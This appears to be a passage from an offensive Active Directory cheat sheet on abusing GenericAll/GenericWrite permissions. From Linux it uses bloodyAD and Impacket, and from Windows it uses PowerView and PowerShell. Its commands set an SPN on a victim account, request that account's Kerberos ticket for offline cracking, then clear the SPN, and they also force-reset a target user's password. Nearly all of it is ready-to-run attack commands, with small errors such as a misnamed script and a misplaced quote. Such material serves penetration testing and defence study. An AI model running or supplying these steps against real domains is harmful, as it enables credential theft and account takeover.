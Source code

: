 ## GenericAll/GenericWrite Abuse

### From Linux

We can set a **SPN** on a target account, request a Service Ticket (ST), then grab its hash and kerberoast it.

* **Using BloodyAD and Impacket**  

  ```bash
  # Check for interesting permissions on accounts:
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get writable --otype USER --right WRITE --detail | egrep -i 'distinguishedName|servicePrincipalName'

  # Check if current user has already an SPN setted:
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' get object <UserName> --attr serviceprincipalname

  # Force set the SPN on the account: Targeted Kerberoasting
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname -v 'ops/whatever1'

  # Grab the ticket
  GetUsersSPNs.py -dc-ip 10.10.10.10 'attack.lab/john.doe:Password123*' -request-user <UserName>

  # Remove the SPN
  bloodyAD --host 10.10.10.10 -d attack.lab -u john.doe -p 'Password123*' set object <UserName> serviceprincipalname
  ```

### From Windows
* **Using Powerview**  

  ```ps1
  # Check for interesting permissions on accounts:
  Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

  # Check if current user has already an SPN setted:
  PowerView2 > Get-DomainUser -Identity <UserName> | select serviceprincipalname

  # Force set the SPN on the account: Targeted Kerberoasting
  PowerView2 > Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
  PowerView3 > Set-DomainObject -Identity <UserName> -Set @{serviceprincipalname='any/thing'}

  # Grab the ticket
  PowerView2 > $User = Get-DomainUser username 
  PowerView2 > $User | Get-DomainSPNTicket | fl
  PowerView2 > $User | Select serviceprincipalname

  # Remove the SPN
  PowerView2 > Set-DomainObject -Identity username -Clear serviceprincipalname
  ```
* **Usering Basic Powershell**  
  ```powershell
  # Create PSCredential Object
  $SecPassword = ConvertTo-SecureString '<password here>' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('<domain\username'>, $SecPassword)

  # Create Secure String Password for the Target Account
  $TargetPass = ConvertTo-SecureString '<password here>' -AsPlainText -Force

  # Use Powerview to change the password
  Import-Module .\Powerview.ps1
  Set-DomainUserPassword -Identity <target username> -AccountPassword $TargetPass -Credential $Cred -Verbose
  ```